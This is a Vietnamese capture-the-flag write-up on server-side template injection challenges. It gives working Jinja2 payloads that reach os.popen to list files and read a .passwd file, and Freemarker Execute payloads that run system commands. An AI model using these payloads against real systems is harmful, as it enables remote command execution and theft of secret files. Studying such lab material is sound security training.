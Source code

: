 # Trần Mạnh Huy

* [Python - Server-side Template Injection Introduction](#python---server-side-template-injection-introduction)
* [Java - Server-side Template Injection](#java---server-side-template-injection)
* [Python - Blind SSTI Filters Bypass](#python---blind-ssti-filters-bypass)


## Python - Server-side Template Injection Introduction

```
Statement

This service allows you to generate a web page. Use it to read the flag!

```

#### Đễ thấy ứng dụng nhận vào hai tham số trong đó giá trị content gặp phải lỗ hổng SSTI, thử với payload **{{10*10}}** trong phần content được server trả về kết quả: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_01.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_02.jpg)

Do kết quả trả về là "10101010101010101010" nên có thể xác nhận template được dùng ở đây là jinja2, còn nếu trả về 100 thì sẽ là template twig.

#### Đã xác định được template là jinja2, ta có thể build được payload khai thác từ nó
Dùng TemplateReference object để import các module bằng payload:

```
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls').read() }}

```
Ta được:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_03.jpg)

#### Thay payload trên bằng {{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('ls -lsa').read() }}

Thấy được file .passwd. Sửa payload thành : **{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('cat .passwd').read() }}** ta được pass để giải chall này

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_04.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root01_06.jpg)


## Java - Server-side Template Injection

```
Statement

Exploit the vulnerability in order to retrieve the validation password in the file SECRET_FLAG.txt.

```

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root02_01.jpg)

Sau khi thử test 1 hồi thì thấy nó bị dính SSTI thông qua payloads:${7*7} 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root02_02.jpg)

Để ý kĩ gì khi thực hiện request GET lên server, phần HEADER của template đang kh chuẩn khi X-Powered-By cho ta biết được website đang dùng tempalte Freemaker hoặc ta có thể thử tiếp khi biết nó bị dính payloads: ${7*7} 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root_02_05.jpg)

Biết được dùng template engine Freemaker rồi thì ta có thể built payload khác thác từ nó như sau:

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

```
Dùng payload tìm flag: 

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root02_03.jpg)

![](https://github.com/manhhuy2002/hello-world/blob/main/ssti/root02_04.jpg)



## Python - Blind SSTI Filters Bypass
